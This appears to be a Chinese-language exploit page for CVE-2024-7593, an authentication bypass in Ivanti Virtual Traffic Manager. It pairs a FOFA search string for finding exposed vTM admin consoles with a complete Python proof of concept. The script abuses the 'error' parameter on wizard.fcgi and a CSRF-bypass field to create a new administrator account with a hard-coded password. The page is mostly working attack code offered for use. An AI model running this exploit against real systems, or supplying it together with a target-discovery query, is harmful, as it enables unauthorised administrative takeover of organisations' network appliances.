 # Ivanti-Virtual-Traffic-Manager存在身份验证绕过漏洞(CVE-2024-7593)

Ivanti Virtual Traffic Manager (vTM)多个版本存在身份验证绕过漏洞(CVE-2024-7593)，由于身份验证算法的错误实现，导致未经身份验证的远程攻击者绕过面向互联网的vTM管理控制台上的身份验证，未授权创建管理用户。

## fofa

```javascript
"Pulse Secure vTM Administration Server"
```

## poc

```python
import requests

# Set to target address
admin_portal = 'https://1.1.1.1:9090'

# User to create
new_admin_name = 'ldwkadmin'
new_admin_password = 'ldwkadmin1234'

requests.packages.urllib3.disable_warnings() 
session = requests.Session()

# Setting 'error' bypasses access control for wizard.fcgi.
# wizard.fcgi can load any section in the web interface.
params = { 'error': 1,
          'section': 'Access Management:LocalUsers' }

# Create new user request
# _form_submitted to bypass CSRF
data = {  '_form_submitted': 'form',
          'create_user': 'Create',
          'group': 'admin',
          'newusername': new_admin_name,
          'password1': new_admin_password,
          'password2': new_admin_password }

# Post request
r = session.post(admin_portal + "/apps/zxtm/wizard.fcgi", params=params, data=data, verify=False, allow_redirects=False)

# View response
content = r.content.decode('utf-8')
print(content)

if r.status_code == 200 and '<title>2<' in content:
    print("New user request sent")
    print("Login with username '" + new_admin_name + "' and password '" + new_admin_password + "'")
else:
    print("Unable to create new user")  
```

